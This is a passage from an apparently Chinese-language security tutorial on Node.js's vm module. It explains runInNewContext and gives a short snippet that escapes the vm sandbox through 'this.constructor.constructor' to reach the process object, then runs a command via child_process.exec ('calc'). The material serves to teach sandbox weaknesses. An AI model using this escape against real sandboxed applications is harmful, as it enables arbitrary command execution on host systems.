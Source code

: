 [![](assets/1706959000-e6c8c4903488366491c4924f853c21c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126140428-c3a82a8e-bc10-1.png)

-   **runInNewContext：**

执行的效果相当于 createContext 和 runInContext，相关的参数分别是 context 和要执行的代码，可以提供 context 也可以不提供，不提供的话默认生成一个 context 来进行使用

```bash
const vm = require("vm");

const code = 'this.constructor.constructor("return process")();';

const res=vm.runInNewContext(code);

console.log(res.mainModule.require("child_process").exec('calc'));
```
